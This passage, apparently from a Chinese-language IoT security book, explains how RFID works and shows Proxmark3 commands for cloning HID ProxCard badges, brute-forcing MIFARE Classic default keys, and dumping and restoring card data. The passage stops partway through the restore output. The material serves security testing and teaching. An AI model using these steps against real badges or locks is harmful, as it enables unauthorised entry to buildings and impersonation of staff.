





# 10

短距离无线电：滥用 RFID


物联网（IoT）设备并不总是需要跨越长距离进行持续的无线传输。制造商通常使用*短距离无线电*技术来连接配备低功耗、廉价发射器的设备。这些技术使设备能够在较长的时间间隔内交换少量数据，因此非常适合那些在不传输数据时需要节省电力的物联网设备。

本章中，我们将探讨最流行的短距离无线电解决方案——*射频识别（RFID）*。它常用于智能门锁和门禁卡标签以进行用户身份识别。你将学习使用各种方法克隆标签、破解标签的加密密钥，并更改标签中存储的信息。成功利用这些技术可能使攻击者获得对某个设施的非法访问权限。例如，你还将编写一个简单的模糊测试器，用于发现 RFID 读卡器中的未知漏洞。

## RFID 的工作原理

RFID 的设计初衷是取代条形码技术。它通过无线电波传输编码数据，然后使用这些数据来识别带标签的实体。这个实体可以是一个人，比如希望进入公司大楼的员工；宠物；通过收费站的汽车；甚至是简单的商品。

RFID 系统有多种形状、支持的范围和大小，但我们通常可以识别出图 10-1 中显示的主要组件。



图 10-1：常见 RFID 系统组件

RFID 标签的存储器包含标识某个实体的信息。读卡器可以通过扫描天线读取标签的信息，通常这种天线是外部连接的，且通常生成无线连接所需的恒定电磁场。当标签的天线进入读卡器天线的范围内时，读卡器的电磁场会向标签传送电流，提供能量使其工作。标签接着可以接收来自 RFID 读卡器的命令，并发送包含标识数据的响应。

若干组织制定了标准和规章，规定了使用 RFID 技术共享信息时所使用的射频、协议和程序。以下各节将概述这些变种、它们所基于的安全原则以及 RFID 启用的物联网设备的测试方法。

### 射频频段

RFID 依赖于一组在特定射频频段内工作的技术，如表 10-1 所示。

表 10-1：RFID 频段

| **频段** | **信号范围** |
| --- | --- |
| 极低频（VLF） | （3 kHz–30 kHz） |
| 低频（LF） | （30 kHz–300 kHz） |
| 中频（MF） | （300 kHz–3,000 kHz） |
| 高频（HF） | （3,000 kHz–30 MHz） |
| 超高频（VHF） | （30 MHz–300 MHz） |
| 超高频（UHF） | （300 MHz–3,000 MHz） |
| 超高频（SHF） | （3,000 MHz–30 GHz） |
| 极高频 (EHF) | (30 GHz–300 GHz) |
| 未分类 | (300 GHz–3,000 GHz) |

这些 RFID 技术中的每一种都遵循特定的协议。用于系统的最佳技术取决于信号范围、数据传输速率、精度和实施成本等因素。

### 被动与主动 RFID 技术

RFID 标签可以依靠自身的电源，比如嵌入式电池，或者从读取天线获取电力，通过接收的无线电波产生的电流来供电。我们将这些技术分类为 *主动* 或 *被动* 技术，如 图 10-2 所示。


图 10-2：沿无线电频谱分布的被动与主动技术

由于主动设备无需外部电源即可启动通信过程，它们通常工作在较高的频率范围内，并能持续广播信号。它们还能支持更长距离的连接，因此常用于追踪信标。被动设备则工作在 RFID 频谱中的三种较低频率上。

一些特殊设备是 *半被动* 的；它们包含集成电源，能够在不依赖阅读器信号的情况下始终为 RFID 标签微芯片提供电源。因此，这些设备比被动设备响应更快，且具有更广的读取范围。

识别现有 RFID 技术差异的另一种方法是观察它们的无线电波。低频设备使用长波，而高频设备使用短波（见 图 10-3）。



图 10-3：根据频率变化的波形

这些 RFID 实现还使用尺寸和线圈圈数非常不同的天线，如 表 10-2 所示。每种天线的形状为每个波长提供了最佳的范围和数据传输速率。

### RFID 标签的结构

要了解 RFID 标签中存在的网络安全威胁，您需要了解这些设备的内部工作原理。商业标签通常符合 ISO/IEC 18000 和 EPCglobal 国际标准，这些标准定义了一系列不同的 RFID 技术，每种技术使用独特的频率范围。

表 10-2：不同频率实现的天线

| **低频** | **高频** | **超高频** |
| --- | --- | --- |
|  |  |  |

#### 标签分类

EPCglobal 将 RFID 标签分为六类。每一类的标签都具备前一类中列出的所有功能，因此具有向后兼容性。

*Class 0 标签* 是被动标签，工作在 UHF 频段。厂商在生产工厂中对其进行预编程，因此无法更改其存储在内存中的信息。

*Class 1 标签*也可以在 HF 频段中工作。此外，它们在生产后只能写入一次。许多 Class 1 标签还可以处理它们接收到的命令的*循环冗余校验 (CRC)*。CRC 是命令末尾的一些额外字节，用于错误检测。

*Class 2 标签*可以多次写入。

*Class 3 标签*可以包含嵌入式传感器，能够记录环境参数，如当前温度或标签的运动。这些标签是半被动的，因为尽管它们有嵌入式电源，如集成电池，但它们不能主动与其他标签或读取器进行无线通信。

相反，*Class 4 标签*可以与同一类别的其他标签进行通信，使它们成为主动标签。

最先进的标签是*Class 5 标签*，它不仅可以为其他标签提供电力，还能与所有前述标签类别进行通信。Class 5 标签可以充当 RFID 阅读器。

#### 存储在 RFID 标签中的信息

RFID 标签的内存通常存储四种数据：（a）*标识数据*，用于标识标签所附着的实体；（b）*补充数据*，提供有关该实体的进一步细节；（c）*控制数据*，用于标签的内部配置；以及（d）标签的*制造商数据*，其中包含标签的*唯一标识符 (UID)* 以及有关标签生产、类型和供应商的详细信息。你会在所有商业标签中找到前两种数据；后两种则可能根据标签供应商不同而有所差异。

标识数据包括用户定义的字段，如银行账户、产品条形码和价格。它还包括标准所规定的多个寄存器，这些标准定义了标签所遵循的规定。例如，ISO 标准规定了*应用家庭标识符 (AFI)* 值，这是一个代码，指示标签所属对象的种类。旅行行李的标签会使用与图书馆书籍标签不同的预定义 AFI。另一个由 ISO 规定的重要寄存器是*数据存储格式标识符 (DSFID)*，它定义了用户数据的逻辑组织。

补充数据可以处理标准定义的其他细节，例如应用标识符 (AIs)、ANSI MH-10 数据标识符 (DIs) 和 ATA 文本元素标识符 (TEIs)，这些我们在这里不讨论。

RFID 标签还支持根据标签供应商不同而设定的各种安全控制。大多数标签具有限制每个用户内存块的读取或写入操作以及包含 AFI 和 DSFID 值的特殊寄存器的机制。这些锁定机制使用存储在控制内存中的数据，并具有由供应商预配置的默认密码，但允许标签拥有者配置自定义密码。

### 低频 RFID 标签

低频 RFID 设备包括员工用来开门的门禁卡、小型玻璃管标签（植入宠物体内）以及用于洗衣、工业和物流应用的耐温 RFID 标签。这些设备依赖于被动 RFID 技术，工作频率范围为 30 kHz 到 300 kHz，尽管大多数人日常使用的设备（用于跟踪、访问或验证任务）工作在 125 kHz 到 134 kHz 的较窄范围内。与高频技术不同，低频标签具有较小的存储容量、较慢的数据传输速率，以及防水和防尘的特点。

我们通常使用低频标签进行门禁控制。原因在于它们的低存储容量只能处理少量数据，例如用于身份验证的 ID。最先进的标签之一，HID Global 的 ProxCard（图 10-4），使用少量字节支持唯一的 ID，标签管理系统可以利用这些 ID 进行用户认证。



图 10-4：HID ProxCard II，一种流行的低频 RFID 标签

其他公司，例如 NXP 通过其 Hitag2 标签和读卡器，推出了进一步的安全控制；例如，使用共享密钥的互认证协议，用于保护标签与读卡器之间的通信。这项技术在车辆防盗应用中非常受欢迎。

### 高频 RFID 标签

全球范围内，你可以在支付系统等应用中找到高频 RFID 技术，这使得它成为非接触式世界中的颠覆者。许多人称这种技术为 *近场通信（NFC）*，这是指工作在 13.56 MHz 频率范围内的设备。一些最重要的 NFC 技术包括 MIFARE 卡和集成在移动设备中的 NFC 微控制器。

NXP 是最受欢迎的高频标签供应商之一，控制着大约 85% 的非接触式市场。移动设备使用了许多其 NFC 芯片。例如，iPhone XS 和 XS Max 的新版本实现了 NXP 100VB27 控制器。这使得 iPhone 可以与其他 NFC 应答器通信，并执行如非接触式支付等任务。此外，NXP 还拥有一些低成本且文档完善的微控制器，如 PN532，广泛用于研发。PN532 支持读取和写入、点对点通信以及仿真模式。

NXP 还设计了 MIFARE 卡，这是基于 ISO/IEC 14443 的非接触式智能卡。MIFARE 品牌有不同的系列，例如 MIFARE Classic、MIFARE Plus、MIFARE Ultralight、MIFARE DESFire 和 MIFARE SAM。根据 NXP 的说法，这些卡实现了 AES 和 DES/Triple-DES 加密方法，而一些版本，例如 MIFARE Classic、MIFARE SAM 和 MIFARE Plus，还支持其专有的加密算法 Crypto-1。

## 使用 Proxmark3 攻击 RFID 系统

本节中，我们将介绍多种针对 RFID 标签的攻击。我们将克隆标签，使你能够冒充合法的人或物体。我们还将绕过卡片的保护措施，篡改其存储的内存内容。此外，我们还将构建一个简单的模糊测试工具，你可以用它对具有 RFID 读取功能的设备进行测试。

作为卡片读取器，我们将使用 Proxmark3，这是一款通用的 RFID 工具，配备强大的现场可编程门阵列（FPGA）微控制器，能够读取和仿真低频和高频标签（[`github.com/Proxmark/proxmark3/wiki`](https://github.com/Proxmark/proxmark3/wiki)）。目前 Proxmark3 的价格不到 300 美元。你也可以使用 Proxmark3 EVO 和 Proxmark3 RDV 4 版本的工具。要使用 Proxmark3 读取标签，你需要为特定卡片频段设计的天线（参考表 10-2 查看天线类型的图片）。你可以从与 Proxmark3 设备相同的分销商处获取这些天线。

我们还将向你展示如何使用免费的应用程序，将任何支持 NFC 的 Android 设备转换为 MIFARE 卡的卡片读取器。

为了进行这些测试，我们将使用 HID ProxCard，以及一些未编程的 T55x7 标签和 NXP MIFARE Classic 1KB 卡，这些卡的价格不到 2 美元每张。

### 设置 Proxmark3

要使用 Proxmark3，你首先需要在计算机上安装一些必需的软件包。以下是如何使用`apt`进行安装：

```
$ **sudo apt install git build-essential libreadline5 libreadline-dev gcc-arm-none-eabi libusb-0.1-4 libusb-dev libqt4-dev ncurses-dev perl pkg-config libpcsclite-dev pcscd**
```

接下来，使用`git`命令从 Proxmark3 的远程仓库下载源代码。然后导航到其文件夹并运行`make`命令来构建所需的二进制文件：

```
$ **git clone [`github.com/Proxmark/proxmark3.git`](https://github.com/Proxmark/proxmark3.git)**
$ **cd proxmark3**
$ **make clean && make all**
```

现在，你准备好通过 USB 线将 Proxmark3 连接到计算机。连接后，使用`dmesg`命令识别设备连接的串口，该命令可在 Kali Linux 中使用。你可以使用该命令获取系统硬件的信息：

```
$ **dmesg**
[44643.237094] usb 1-2.2: new full-speed USB device number 5 using uhci_hcd
[44643.355736] usb 1-2.2: New USB device found, idVendor=9ac4, idProduct=4b8f, bcdDevice= 0.01
[44643.355738] usb 1-2.2: New USB device strings: Mfr=1, Product=2, SerialNumber=0
[44643.355739] usb 1-2.2: Product: proxmark3
[44643.355740] usb 1-2.2: Manufacturer: proxmark.org
[44643.428687] cdc_acm 1-2.2:1.0: ttyACM0: USB ACM device
```

根据输出结果，我们知道设备连接在*/dev/ttyACM0*串口上。

### 更新 Proxmark3

由于 Proxmark3 的源代码经常更新，我们建议在使用设备之前先更新它。设备软件由操作系统、引导程序映像和 FPGA 映像组成。引导程序执行操作系统，而 FPGA 映像则是设备嵌入式 FPGA 中执行的代码。

最新的引导程序版本位于源代码文件夹中的*bootrom.elf*文件。要安装它，连接设备到计算机后，按住 Proxmark3 的按钮，直到设备上显示红色和黄色的灯光。然后，在按住按钮的同时，使用源代码文件夹中的*flasher*二进制文件安装映像。作为参数，传递 Proxmark3 的串口接口以及`-b`参数来定义引导程序映像的路径：

```
$ **./client/flasher /dev/ttyACM0 -b ./bootrom/obj/bootrom.elf**
Loading ELF file '../bootrom/obj/bootrom.elf'...
Loading usable ELF segments:
0: V 0x00100000 P 0x00100000 (0x00000200->0x00000200) [R X] @0x94
1: V 0x00200000 P 0x00100200 (0x00000c84->0x00000c84) [R X] @0x298
Waiting for Proxmark to appear on /dev/ttyACM0 .
Found.
Flashing...
Writing segments for file: ../bootrom/obj/bootrom.elf
0x00100000..0x001001ff [0x200 / 1 blocks]. OK
0x00100200..0x00100e83 [0xc84 / 7 blocks]....... OK
Resetting hardware...
All done.
Have a nice day!
```

你可以在相同的文件中找到操作系统和 FPGA 镜像的最新版本，文件名为*fullimage.elf*，位于源代码文件夹中。如果你使用的是 Kali Linux，你还应该停止并禁用 ModemManager。ModemManager 是许多 Linux 发行版中控制移动宽带设备和连接的守护进程，它可能会干扰连接的设备，如 Proxmark3。要停止并禁用此服务，可以使用`systemectl`命令，该命令已预装在 Kali Linux 中：

```
# **systemctl stop ModemManager**
# **systemctl disable ModemManager**
```

你可以使用 Flasher 工具再次完成闪存操作，这次不带`-b`参数。

```
#**./****client/flasher /dev/ttyACM0 armsrc/obj/fullimage.elf**
Loading ELF file 'armsrc/obj/fullimage.elf'...
Loading usable ELF segments:
0: V 0x00102000 P 0x00102000 (0x0002ef48->0x0002ef48) [R X] @0x94
1: V 0x00200000 P 0x00130f48 (0x00001908->0x00001908) [RW ] @0x2efdc
Note: Extending previous segment from 0x2ef48 to 0x30850 bytes
Waiting for Proxmark to appear on /dev/ttyACM0 .
Found.
Flashing...
Writing segments for file: armsrc/obj/fullimage.elf
0x00102000..0x0013284f [0x30850 / 389 blocks]......... OK
Resetting hardware...
All done.
Have a nice day!
```

Proxmark3 RVD 4.0 还支持一个命令，可以自动化整个更新过程，包括更新引导加载程序、操作系统和 FPGA：

```
$ ./**pm3-flash-all**
```

要查看更新是否成功，执行位于*client*文件夹中的`Proxmark3`二进制文件，并将设备的串口接口传递给它：

```
# **./client/proxmark3 /dev/ttyACM0**
Prox/RFID mark3 RFID instrument          
bootrom: master/v3.1.0-150-gb41be3c-suspect 2019-10-29 14:22:59
os: master/v3.1.0-150-gb41be3c-suspect 2019-10-29 14:23:00
fpga_lf.bit built for 2s30vq100 on 2015/03/06 at 07:38:04
fpga_hf.bit built for 2s30vq100 on 2019/10/06 at 16:19:20
SmartCard Slot: not available
uC: AT91SAM7S512 Rev B          
Embedded Processor: ARM7TDMI          
Nonvolatile Program Memory Size: 512K bytes. Used: 206927 bytes (39%). Free: 317361 bytes (61%).          
Second Nonvolatile Program Memory Size: None          
Internal SRAM Size: 64K bytes          
Architecture Identifier: AT91SAM7Sxx Series          
Nonvolatile Program Memory Type: Embedded Flash Memory          
proxmark3>
```

该命令应输出设备的属性，例如嵌入式处理器类型、内存大小和架构标识符，然后显示提示符。

### 识别低频和高频卡

现在让我们识别特定类型的 RFID 卡。Proxmark3 软件预加载了不同供应商的已知 RFID 标签列表，并支持供应商特定的命令，允许你控制这些标签。

在使用 Proxmark3 之前，连接一个与卡片类型匹配的天线。如果你使用的是更新的 Proxmark3 RVD 4.0 型号，天线看起来会略有不同，因为它们更加紧凑。请查阅供应商的文档，选择适合每种情况的天线。

Proxmark3 的所有命令都以`lf`参数开始，用于与低频卡交互，或以`hf`参数开始，用于与高频卡交互。要识别附近的已知标签，使用`search`参数。在以下示例中，我们使用 Proxmark3 识别一个 Hitag2 低频标签：

```
proxmark3> **lf search** 
Checking for known tags: 
Valid Hitag2 tag found - UID: 01080100 
```

下一个命令识别一个 NXP ICode SLIX 高频标签：

```
proxmark3> **hf search** 
UID:               E0040150686F4CD5          
Manufacturer byte: 04, NXP Semiconductors Germany          
Chip ID:           01, IC SL2 ICS20/ICS21(SLI) ICS2002/ICS2102(SLIX)          
Valid ISO15693 Tag Found - Quiting Search
```

根据标签供应商的不同，命令的输出可能还包括制造商、微芯片识别号或已知的标签特定漏洞。

### 低频标签克隆

让我们克隆一个标签，从低频标签开始。市面上可用的低频卡包括 HID ProxCard、Cotag、Awid、Indala 和 Hitag 等，但 HID ProxCard 是最常见的。在本节中，我们将使用 Proxmark3 克隆它，并创建一个包含相同数据的新标签。你可以使用这个标签冒充合法的标记实体，例如员工，并解锁公司大楼的智能门锁。

首先，使用低频搜索命令识别 Proxmark3 范围内的卡片。如果在范围内的卡片是 HID，则输出通常如下所示：

```
proxmark3> **lf search**
Checking for known tags:
HID Prox TAG ID: 2004246b3a (13725) - Format Len: 26bit - FC: 18 - Card: 13725          
[+] Valid HID Prox ID Found!
```

接下来，提供`hid`作为参数，查看支持的 HID 设备的供应商特定标签命令：

```
proxmark3> **lf hid**
help            this help          
demod        demodulate HID Prox tag from the GraphBuffer          
read            attempt to read and extract tag data          
clone          clone HID to T55x7          
sim             simulate HID tag         
wiegand     convert facility code/card number to Wiegand code          
brute          bruteforce card number against reader 
```

现在尝试读取标签数据：

```
proxmark3> **lf hid read**
HID Prox TAG ID: 2004246b3a (13725) - Format Len: 26bit - FC: 18 - Card: 13725
```

该命令应返回 HID 标签的确切 ID。

要使用 Proxmark3 克隆此标签，可以使用一张空白或之前未编程的 T55x7 卡。这些卡通常与 EM4100、HID 和 Indala 技术兼容。将 T55x7 卡放置在低频天线位置，执行以下命令，并传入你要克隆的标签的 ID：

```
proxmark3> **lf hid clone 2004246b3a**
Cloning tag with ID 2004246b3a 
```

现在，你可以像使用原卡一样使用 T55x7 卡。

### 高频标签克隆

尽管高频技术提供的安全性优于低频技术，但不充分或过时的实现仍可能容易受到攻击。例如，MIFARE Classic 卡是最脆弱的高频卡之一，因为它们使用默认密钥和不安全的专有加密机制。在本节中，我们将详细介绍克隆 MIFARE Classic 卡的过程。

#### MIFARE Classic 内存分配

为了理解 MIFARE Classic 可能的攻击路径，我们分析一下最简单的 MIFARE 卡：MIFARE Classic 1KB 卡（图 10-5）。



图 10-5：MIFARE Classic 内存映射

MIFARE Classic 1KB 卡有 16 个区块。每个区块占四个块，每个块包含 16 字节。制造商将卡的 UID 保存在区块 0 的第 0 块中，这部分内容无法修改。

要访问每个区块，你需要两个密钥，A 和 B。这些密钥可以不同，但许多实现使用默认密钥（`FFFFFFFFFFFF`是常见的一个）。这些密钥存储在每个区块的第 3 块中，称为*区块尾*。区块尾还存储*访问位*，它们通过这两个密钥设定每个块的读写权限。

为了理解为什么需要两个密钥，我们来看一个例子：我们用来乘坐地铁的卡片。这些卡片可能允许 RFID 读卡器使用密钥 A 或 B 读取所有数据区块，但只有使用密钥 B 才能写入这些区块。因此，只有配备了密钥 A 的闸机上的 RFID 读卡器，可以读取卡片数据，解锁闸机供余额足够的用户通行，并扣减他们的余额。但要写入或增加用户余额，你需要一个配备密钥 B 的特殊终端。车站的收银员可能是唯一能够操作此终端的人。

访问位位于两种密钥类型之间。如果公司配置这些访问位时出错——例如，无意中授予写入权限——攻击者可能会篡改该区域的区块数据。表 10-3 列出了使用这些访问位时可以定义的可能访问控制权限。

表 10-3：MIFARE 访问位

| **访问位** | **有效的访问控制权限** | **区块** | **描述** |
| --- | --- | --- | --- |
| C1[3,] C2[3,] C3[3,] | 读取、写入 | 3 | 区块尾 |
| C1[2,] C2[2,] C3[2] | 读取、写入、增加、减少、传输、恢复 | 2 | 数据块 |
| C1[1,] C2[1,] C3[1] | 读取、写入、增加、减少、传输、恢复 | 1 | 数据块 |
| C1[0,] C2[0,] C3[0,] | 读取、写入、增加、减少、转移、恢复 | 0 | 数据块 |

你可以使用各种方法来破解 MIFARE Classic 卡。你可以使用专用硬件，如 Proxmark3 或带有 PN532 板的 Arduino。甚至一些不那么复杂的硬件，如一部 Android 手机，可能足以复制、克隆和重放 MIFARE Classic 卡，但许多硬件研究人员更倾向于使用 Proxmark3，而不是其他解决方案，因为它预加载了命令。

要查看你可以对 MIFARE Classic 卡执行的攻击，请使用 `hf mf` 命令：

```
proxmark3> **hf mf**
help                This help          
darkside         Darkside attack. read parity error messages.          
nested             Nested attack. Test nested authentication          
hardnested     Nested attack for hardened MIFARE cards          
keybrute         J_Run's 2nd phase of multiple sector nested authentication key recovery          
nack               Test for MIFARE NACK bug          
chk                 Check keys          
fchk                Check keys fast, targets all keys on card          
decrypt           [nt] [ar_enc] [at_enc] [data] - to decrypt snoop or trace          
-----------                
dbg                 Set default debug mode   
…
```

列出的多数命令实现了针对所用身份验证协议的暴力破解攻击（如 `chk` 和 `fchk` 命令）或已知漏洞的攻击（如 `nack`、`darkside` 和 `hardnested` 命令）。我们将在第十五章中使用 `darkside` 命令。

#### 使用暴力破解攻击破解密钥

要读取 MIFARE 卡的内存块，你需要找到每个 16 个扇区的密钥。最简单的方法是执行暴力破解攻击，并尝试使用默认密钥列表进行身份验证。Proxmark3 为此攻击提供了一个专用命令，叫做 `chk`（是“check”的缩写）。此命令使用已知的密码列表来尝试读取卡片。

要执行此攻击，首先使用 `hf` 参数选择高频带中的命令，然后使用 `mf` 参数，它将显示 MIFARE 卡的命令。接着添加 `chk` 参数以选择暴力破解攻击。你还必须提供目标的块数量。这可以是 `0x00` 和 `0xFF` 之间的一个参数，也可以是 *** 字符，后跟指定标签内存大小的数字（`0` = 320 字节，`1` = 1KB，`2` = 2KB，`4` = 4KB）。

接下来，提供密钥类型：`A` 代表 A 类型密钥，`B` 代表 B 类型密钥，`?` 代表测试两种类型的密钥。你还可以使用 `d` 参数将识别出的密钥写入二进制文件，或使用 `t` 参数将识别出的密钥直接加载到 Proxmark3 仿真器内存中以供进一步使用，比如读取特定的块或扇区。

然后你可以指定一个由空格分隔的密钥列表，或者一个包含这些密钥的文件。Proxmark3 在源代码文件夹中包含一个默认列表，位于 *./client/default_keys.dic*。如果你没有提供自己的密钥列表或文件，Proxmark3 将使用此文件来测试 17 个最常见的默认密钥。

下面是暴力破解攻击的示例运行：

```
$ proxmark3> **hf mf chk *1 ?** **t****./client/****default_keys.dic**
--chk keys. sectors:16, block no:  0, key type:B, eml:n, dmp=y checktimeout=471 us          
chk custom key[ 0] FFFFFFFFFFFF          
chk custom key[ 1] 000000000000          
…          
chk custom key[91] a9f953def0a3          
To cancel this operation press the button on the proxmark...          
--o.          
|---|----------------|---|----------------|---|          
|sec|key A           |res|key B           |res|          
|---|----------------|---|----------------|---|          
|000|  FFFFFFFFFFFF  | 1 |  FFFFFFFFFFFF  | 1 |          
|001|  FFFFFFFFFFFF  | 1 |  FFFFFFFFFFFF  | 1 |          
|002|  FFFFFFFFFFFF  | 1 |  FFFFFFFFFFFF  | 1 |          
|003|  FFFFFFFFFFFF  | 1 |  FFFFFFFFFFFF  | 1 |           
…
|014|  FFFFFFFFFFFF  | 1 |  FFFFFFFFFFFF  | 1 |          
|015|  FFFFFFFFFFFF  | 1 |  FFFFFFFFFFFF  | 1 |          
|---|----------------|---|----------------|---|          
32 keys(s) found have been transferred to the emulator memory 
```

如果命令成功，它会显示一个表格，列出 16 个扇区的 A 和 B 密钥。如果你使用了 `b` 参数，Proxmark3 会将密钥存储在名为 *dumpedkeys.bin* 的文件中，输出结果将如下所示：

```
Found keys have been dumped to file dumpkeys.bin. 
```

最新版本的 Proxmark3，例如 RVD 4.0，支持该命令的优化版本，名为 `fchk`。它需要两个参数，标签的内存大小和 `t`（传输）参数，后者可用于将密钥加载到 Proxmark3 内存中：

```
proxmark3> hf mf fchk 1 t
[+] No key specified, trying default keys          
[ 0] FFFFFFFFFFFF          
[ 1] 000000000000          
[ 2] a0a1a2a3a4a5          
[ 3] b0b1b2b3b4b5          
…
```

#### 读取和克隆卡片数据

一旦知道了密钥，你就可以使用 `rdbl` 参数开始读取扇区或块。以下命令读取块号为 0 的 A 密钥 `FFFFFFFFFFFF`：

```
proxmark3> **hf mf rdbl 0 A FFFFFFFFFFFF**
--block no:0, key type:A, key:FF FF FF FF FF FF            
data: B4 6F 6F 79 CD 08 04 00 01 2A 51 62 0B D9 BB 1D 
```

你可以使用相同的方法读取完整的扇区，使用 `hf mf rdsc` 命令：

```
proxmark3> **hf mf rdsc 0 A FFFFFFFFFFFF**
--sector no:0 key type:A key:FF FF FF FF FF FF            
isOk:01          
data   : B4 6F 6F 79 CD 08 04 00 01 2A 51 62 0B D9 BB 1D           
data   : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00           
data   : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00           
trailer: 00 00 00 00 00 00 FF 07 80 69 FF FF FF FF FF FF           
Trailer decoded:          
Access block 0: rdAB wrAB incAB dectrAB          
Access block 1: rdAB wrAB incAB dectrAB          
Access block 2: rdAB wrAB incAB dectrAB          
Access block 3: wrAbyA rdCbyA wrCbyA rdBbyA wrBbyA          
UserData: 69 
```

要克隆一张 MIFARE 卡，可以使用 `dump` 参数。该参数会写入一个包含原始卡片所有信息的文件。你可以稍后保存并重用该文件，以创建一个新的、完整的原始卡片副本。

`dump` 参数允许你指定要转储的文件名或技术类型。只需将卡片的内存大小传递给它。在这个例子中，我们使用 `1` 表示 1KB 的内存大小（尽管因为 `1` 是默认大小，我们本可以省略它）。该命令使用我们在 *dumpkeys.bin* 文件中存储的密钥来访问卡片：

```
proxmark3> **hf mf dump** **1**
[=] Reading sector access bits...          
...
[+] Finished reading sector access bits          
[=] Dumping all blocks from card...          
[+] successfully read block  0 of sector  0\.          
[+] successfully read block  1 of sector  0\.          
...         
[+] successfully read block  3 of sector 15\.          
[+] time: 35 seconds
[+] Succeeded in dumping all blocks
[+] saved 1024 bytes to binary file hf-mf-B46F6F79-data.bin 
```

该命令将数据存储在一个名为 *hf-mf-B46F6F79-data.bin* 的文件中。你可以将 *.bin* 格式的文件直接传输到另一张 RFID 标签上。

一些由第三方开发者维护的 Proxmark3 固件会将数据存储在两个额外的文件中，分别具有 .*eml* 和 .*json* 扩展名。你可以将 .*eml* 文件加载到 Proxmark3 内存中以供进一步使用，且可以使用 .*json* 文件与第三方软件及其他 RFID 仿真设备（如 ChameleonMini）配合使用。你可以轻松地将数据从一种文件格式转换为另一种，无论是手动进行，还是使用我们将在《通过 Proxmark3 脚本引擎自动化 RFID 攻击》一章中讨论的多种自动化脚本。

要将存储的数据复制到新卡片上，将卡片放置在 Proxmark3 天线的有效范围内，并使用 Proxmark3 的 `restore` 参数：

```
proxmark3> **hf mf restore**
[=] Restoring hf-mf-B46F6F79-data.bin  to card          
